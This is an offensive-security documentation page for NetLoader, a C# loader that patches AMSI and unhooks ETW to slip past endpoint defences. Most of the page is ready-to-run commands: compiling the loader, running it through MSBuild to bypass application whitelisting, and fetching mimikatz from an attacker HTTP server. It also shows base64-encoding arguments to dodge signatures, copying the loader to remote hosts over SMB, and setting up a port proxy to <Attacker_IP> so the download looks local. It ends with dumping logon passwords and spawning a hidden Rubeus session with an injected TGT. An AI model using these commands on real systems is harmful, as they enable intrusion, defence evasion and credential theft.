

**NetLoader** is a powerful C# tool designed to load binaries (from a URL, local path, or SMB share) directly into memory. It automatically patches **AMSI** and unhooks **ETW** before execution, making it highly effective for bypassing endpoint security controls.

<Callout type="info" title="MITRE ATT&CK Mapping">
* [T1055 - Process Injection](https://attack.mitre.org/techniques/T1055/)
* [T1562.001 - Impair Defenses: Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/)
* [T1027.002 - Software Packing](https://attack.mitre.org/techniques/T1027/002/)
</Callout>


---

## Compilation

<Callout type="info" title="Compiling NetLoader">
NetLoader can be compiled using the native Windows C# compiler (`csc.exe`).
```cmd
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:RandomName.exe Program.cs
```
</Callout>

---

## Deployment via LOLBin (MSBuild)

<Callout type="danger" title="Executing via MSBuild">
NetLoader can be weaponized to execute via MSBuild, a native Windows binary (LOLBin), bypassing Application Whitelisting policies.
</Callout>

<Steps>
  <Step title="Step 1: Modify the XML payload">
    Modify the XML payload (located in the `/LOLBins` folder) to include your arguments:
    ```xml
    public class ClassExample : Task, ITask
    {
        public override bool Execute()
        {
            // Add your arguments here
            SoullikePrincelier.Main(new string[] { "--path", "\\smbshare\Seatbelt.exe" });
            return true;
        }
    }
    ```
  </Step>
  <Step title="Step 2: Execute the XML payload using MSBuild">
    ```cmd
    :: For 64-bit systems:
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe NetLoader.xml

    :: For 32-bit systems:
    C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe NetLoader.xml
    ```
  </Step>
</Steps>

---

## Usage & Execution

<Callout type="tip" title="Loading Binaries from Path or URL">
NetLoader automatically detects if the path is local, remote (SMB), or a URL.
</Callout>

<Tabs>
  <Tab title="Local / SMB Share Execution">
    ```powershell
    .\NetLoader.exe --path Seatbelt.exe --args whoami
    ```
  </Tab>
  <Tab title="HTTP Execution">
    ```powershell
    .\NetLoader.exe --path http://x.x.x.x/Tool/mimikatz.exe
    ```
  </Tab>
  <Tab title="Base64 Encoded Inputs">
    *Useful for avoiding command-line length limits or signature detection.*
    ```powershell
    .\NetLoader.exe --b64 --path U2VhdGJlbHQuZXhl --args d2hvYW1p
    ```
  </Tab>
</Tabs>

---

## File Transfer & Lateral Movement (SMB)

<Callout type="warning" title="Copying NetLoader via SMB">
Use `xcopy` to transfer the NetLoader binary to a remote machine over SMB shares.
</Callout>

<Tabs>
  <Tab title="Copy Directory">
    ```powershell
    # Copy directory recursively
    xcopy C:\NetLoader.exe \\ServerName\C$\Users\Public /E /I
    ```
  </Tab>
  <Tab title="Copy Single File">
    ```powershell
    # Copy single file and auto-confirm overwrite
    echo F | xcopy C:\Loader.exe \\ServerName\C$\Users\Public\Loader.exe
    ```
  </Tab>
</Tabs>

---

## Stealth Execution & Port Forwarding

<Callout type="danger" title="Bypassing Defender & Network Restrictions">
Directly downloading payloads from an external IP via `winrs` can trigger Windows Defender or network firewalls. To bypass this, attackers can set up a local port proxy on the target machine, making the traffic look local.
</Callout>



<Steps>
  <Step title="Step 1: Setup Port Forwarding on the Target">
    *Forwards local port 8080 on the victim to the attacker's HTTP server (port 80).*
    ```powershell
    $null | winrs -r:servername "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=<Attacker_IP>"
    ```
  </Step>
  <Step title="Step 2: Execute Payload via Local Loopback">
    *Instructs NetLoader to fetch the payload from `127.0.0.1:8080`, bypassing external network monitoring.*
    ```powershell
    $null | winrs -r:servername C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/mimikatz.exe sekurlsa::logonpassword exit
    ```
  </Step>
</Steps>

---

## Logon Type 9 (Sacrificial Process)

<Callout type="bug" title="Using Rubeus to Create a Stealthy Session">
Instead of using standard `runas` (which might generate suspicious logs or require credentials), attackers can use Rubeus to request a TGT and spawn a hidden `/netonly` process (Logon Type 9). This process will not stomp on the current session's credentials.
</Callout>

```powershell
# Spawn a hidden CMD process with a forged TGT injected
Rubeus.exe asktgt /user:administrator /aes256:<AES256_KEY> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

# Use the new process to execute remote commands
winrs -r:hostname cmd
